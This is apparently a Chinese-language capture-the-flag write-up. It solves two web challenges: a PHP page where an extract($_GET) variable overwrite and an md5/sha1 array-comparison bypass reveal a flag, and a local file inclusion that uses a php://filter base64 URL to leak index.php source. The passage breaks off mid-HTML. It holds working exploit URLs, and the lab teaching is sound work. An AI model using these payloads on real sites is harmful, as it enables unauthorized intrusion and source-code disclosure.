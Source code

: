 flag =  alt + `<p>`內的文字 = ADL{D00N_dOoN_D0On_Wa!i_h@_h@_hд_ha_hд}

## top secret 
key concept : <font color=blue>md5 sha1 安全漏洞</font> 

[題目](http://ctf.adl.tw:12002/)
```
<?php
show_source(__FILE__);
$flag = $_ENV["FLAG"];

$password = bin2hex(random_bytes(10));

extract($_GET);
if (!empty($guess) && $guess == $password)
{
    echo "WoW you find my secret password";
    if (md5($token1) == sha1($token2))
    {
        echo $flag;
    }
} else 
{
    die("NO :(");
}
```
```
網址輸入：ctf.adl.tw:12002/?password=1&guess=1&token1[]=Q&token2[]=1
```
1. 用`extract($_GET);`特性將`password`和`guess`改成自己的。
2. 因為md5和sha1都只能解讀string 而解讀array 並不會報錯而會回傳false。[參考](https://www.twblogs.net/a/5bafa13c2b7177781a0f37bf)

## hololive_1
key concept : <font color=blue>LFI漏洞 + dirsearch工具 </font>

[題目](http://ctf.adl.tw:12004/)

並且按上面button時會發現
```
網址變成：
http://ctf.adl.tw:12004/index.php?page=gura.html
```
可見換不同圖片是透過傳入get的page參數，所以這邊猜測是用LFI漏洞。

```
網址輸入：
http://ctf.adl.tw:12004/?page=php://filter/read=convert.base64-encode/resource=index.php
```

將index.php用base64-encode顯示出來，解base64後成功挖到index.php
```php=
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>hololiveEN</title>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link href="css/bootstrap.min.css" rel="stylesheet">
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.1/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-F3w7mX95PdgyTmZZMECAngseQB83DfGTowi0iMjiWaeVhAn4FJkqJByhZMI3AhiU" crossorigin="anonymous">
</head>

<body>
```